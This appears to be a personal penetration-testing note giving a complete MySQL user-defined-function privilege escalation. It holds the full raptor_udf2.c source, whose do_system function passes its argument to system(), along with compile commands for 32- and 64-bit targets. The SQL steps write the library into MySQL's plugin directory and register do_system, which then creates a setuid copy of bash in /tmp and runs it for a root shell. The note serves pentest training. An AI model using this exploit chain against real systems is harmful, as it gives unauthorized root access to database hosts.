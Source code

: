 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

![[Pasted image 20211229223508.png | 1000]]

[https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

```bash - kali
sudo apt update && sudo apt install default-libmysqlclient-dev
```

```bash - kali
mousepad raptor_udf2.c
```

**raptor_udf2.c**
```c - kali
#include <stdio.h>
#include <stdlib.h>
 
enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};
 
typedef struct st_udf_args {
        unsigned int arg_count; // number of arguments
        enum Item_result *arg_type; // pointer to item_result
        char **args; // pointer to arguments
        unsigned long *lengths; // length of string args
        char *maybe_null; // 1 for maybe_null args
} UDF_ARGS;
 
typedef struct st_udf_init {
        char maybe_null; // 1 if func can return NULL
        unsigned int decimals; // for real functions
        unsigned long max_length; // for string functions
        char *ptr; // free ptr for func data
        char const_item; // 0 if result is constant
} UDF_INIT;
 
int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
        if (args->arg_count != 1) {
                return(0);
        }
        system(args->args[0]);
        return(0);
}
 
char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
        return(0);
}
```

Transfer the above c file to target.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

IF TARGET IS 64 bit version of debian, we need add -fPIC to the gcc command:

```bash - kali
gcc -g -c raptor_udf2.c -fPIC
```

```bash - kali
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

---
IF TARGET IS 32 bit, remember to add -m32:
```bash - kali
gcc -g -c raptor_udf2.c -fPIC -m32
```

```bash - kali
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc -m32
```
---
Transfer the files over the target.
[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Should have 3 files, like so:

![[Pasted image 20220401110417.png]]

Now log in locally:
```bash - kali
mysql -h localhost -u root -p
```

```sql - target
show databases;
```

```sql - target
use $DATABASE;
```

The first step in this process is to discover where this installation of MySQL stores its UDFs. 

```sql - target
show variables like 'plugin_dir';
```

![[Pasted image 20220401110825.png]]

In this case, the directory is **/usr/lib/mysql/plugin/**. We'll use this directory name in the steps that follow.

We must also determine whether the database has been misconfigured to allow insecure handling of files.

```sql - target
SHOW VARIABLES LIKE "secure_file_priv";
```

![[Pasted image 20220401110942.png]]

At this point, all elements are in place to exploit this misconfiguration and obtain a root shell.

==Pay attention to the directories below, and where your files are:==

==/tmp/Tools/ vs /tmp/ vs /var/www/==

```sql - target
create table foo(line blob);
```

```sql - target
insert into foo values(load_file('/<PATH_TO_FILE>/raptor_udf2.so'));
```

```sql - target
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
```

![[Pasted image 20220406222607.png]]

if the /usr/lib/mysql/plugin directory give you error, try: 

```sql - target
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
```

```sql - target
create function do_system returns integer soname 'raptor_udf2.so';
```

```sql - target
select * from mysql.func;
```

| name | ret |  dl | type |
| ---| --- | --- | --- |  
| do_system | 2 |  raptor_udf2.so | function |

```sql - target
select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
```

![[Pasted image 20211229224131.png | 1000]]

```sql - target
exit
```

```bash - target
/tmp/rootbash -p
```

![[Pasted image 20211229224227.png | 1000]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
